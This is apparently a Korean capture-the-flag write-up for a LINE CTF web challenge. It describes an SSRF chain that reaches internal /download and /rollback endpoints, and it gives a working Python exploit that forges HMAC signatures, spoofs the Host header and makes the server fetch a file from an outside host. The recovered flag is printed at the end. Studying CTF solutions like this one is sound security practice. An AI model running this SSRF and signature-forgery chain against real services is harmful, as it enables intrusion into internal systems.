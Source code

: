 - 시나리오 2
1. SSRF 취약점을 이용해서 /download로 요청을 보내서 임의의 파일을 생성함.
2. 또 다시 SSRF 취약점을 이용해서 /rollback로 요청을 보내 `FLAG`를 읽음 
3. 이때 해당 파일의 이름을 이용해서 `self.dbHash != dbHash` 구문을 우회함.
4. 마지막으로 `lang` 헤더를 읽으면 됨.

- 주의점
1. 파일을 생성할 때, `requests.get()` 함수를 이용해서 요청을 보내기 때문에 파일을 만들 때, `URL`을 전송해서 만들어주어야 함.
2. `RunRollbackDB()` 함수 내에서 `dbHash`의 값을 한 번 더 파싱하는데, 이때 `e.isalnum()`의 값이 참이어야 함.
3. 플래그를 읽을 때, 환경 변수 `ENV`의 값이 `Local`이 아니여야 하기 때문에 `5050` 포트가 아닌 `5000` 포트를 사용해주어야 함.

```python
import hmac
import hashlib
import requests

url = 'http://35.200.63.50/apis/'

Key = hashlib.sha512(('ed05a1c7ff6428dcf8d50901b6e78ba3').encode('ascii')).hexdigest()
print('[+] Key  : ' + Key)

def sign(KEY):
    privateKey = b'let\'sbitcorinparty'
    EN = hmac.new( privateKey , KEY.encode('utf-8'), hashlib.sha512 )
    return EN.hexdigest()

def integrityStatus():
    headers = {'Host':'localhost:5000', 'Lang':'/integrityStatus'}
    res = requests.get(url+'coin', headers=headers)
    print('[+] headers in /apis/integreityStatus : ' + res.headers['lang'])

def download():
    headers = {'Host':'localhost:5000', 'Lang':'download?src=http://141.164.52.207/a123', 'Sign':sign('src=http://141.164.52.207/a123')}
    res = requests.get(url+'coin', headers=headers)
    print('[+] headers in /apis/download : ' + res.headers['lang'])

def rollback():
    headers = {'Host':'localhost:5000', 'Lang':'/rollback?dbhash=a123', 'Sign':sign('dbhash=a123'), 'Key':Key}
    res = requests.get(url+'coin', headers=headers)
    print('[+] headers in /apis/rollback : ' + res.headers['lang'])

if __name__ == '__main__':
    integrityStatus()
    download()
    rollback()
```

> FLAG is LINECTF{YOUNGCHAYOUNGCHABITCOINADAMYMONEYISBURNING}

---
